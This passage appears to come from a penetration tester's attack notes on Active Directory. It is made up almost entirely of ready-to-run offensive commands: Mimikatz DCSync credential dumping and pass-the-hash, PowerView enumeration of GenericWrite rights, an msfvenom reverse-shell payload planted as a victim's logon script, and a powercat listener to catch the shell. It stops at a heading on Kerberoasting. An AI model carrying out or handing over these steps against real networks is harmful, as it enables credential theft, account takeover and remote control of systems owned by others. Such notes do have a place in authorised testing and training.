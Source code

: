 ```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\$TARGET_USER"'
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:$TARGET_USER /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```

#### 87 ACL GenericWrite on User

>NEEDS LOCAL ADMIN USER ACCESS

Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

[[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

Copy your current user's Security Identifier value:
```
Get-DomainUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```

We have generic write access to their account, therefore we can take over their account.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$FIRST_WINDOWS_TARGET LPORT=443 -f exe > privesc.exe
```

[[Python#Server]]

Transfer file over to Windows, set up share that everyone has access to reach this file.
```
Set-DomainObject -Identity $TARGET_USER -Set @{'scriptpath'='\\$HOST\$FOLDER\privesc.exe'}
```

```
Get-DomainUser -Identity $TARGET_USER -Properties scirptpath
```

```
. .\powercat.ps1
```

```
powercat -lp 4444 -Verbose
```

User now has to log in, and we will catch a reverse shell.

#### 88 SET SPN Kerberoast
